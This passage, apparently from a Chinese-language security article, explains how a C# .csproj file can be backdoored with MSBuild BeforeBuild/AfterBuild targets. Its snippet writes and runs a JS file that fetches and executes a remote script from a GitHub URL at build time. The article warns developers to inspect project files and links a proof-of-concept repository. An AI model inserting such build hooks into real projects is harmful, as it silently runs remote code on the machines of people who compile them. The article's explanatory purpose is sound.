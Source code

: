 **解决方法：**  
写临时js文件,再运行，代码如下：

```
 <Target Name="BeforeBuild">
 <Exec Command="echo GetObject(&quot;script:https://raw.githubusercontent.com/3gstudent/Javascript-Backdoor/master/test&quot;)>1.js"/> 
  </Target>
  <Target Name="AfterBuild">
<Exec Command="1.js"/> 
</Target>

```

演示略

0x04 实际影响
=====

任意一个c#工程，只要编辑.csproj文件,即可实现在编译过程中执行任意命令。 正如本文开始的演示图，绝大部分人从github上下载代码后，会选择直接编译，即使部分人会注意代码细节，也常常会忽略.csproj文件，并且通过Visual Studio 的操作面板无法获取添加的后门代码。

![Alt text](http://drops.javaweb.org/uploads/images/e28fcaa6ac160cb18bb86f0c88c39e4e747c87f9.jpg)

如果别有用心的人在公开项目的.csproj文件添加了后门代码，后果将不堪设想。希望本文能引起大家对此细节的注意，尤其是开发人员，编译工程前尤其要记得查看.**proj文件的细节。亡羊而补牢，未为迟也。

**Poc地址：**  
[https://github.com/3gstudent/p0wnedShell-DarkVersion](https://github.com/3gstudent/p0wnedShell-DarkVersion)

0x05 补充
=====

使用Visual Studio中的其他语言也同样可以插入后门：  
**Visual C++：**  
- 修改.vcxproj文件

**Visual Basic：**  
- 修改.vbproj文件

**Visual F#：**  
- 修改.fsproj文件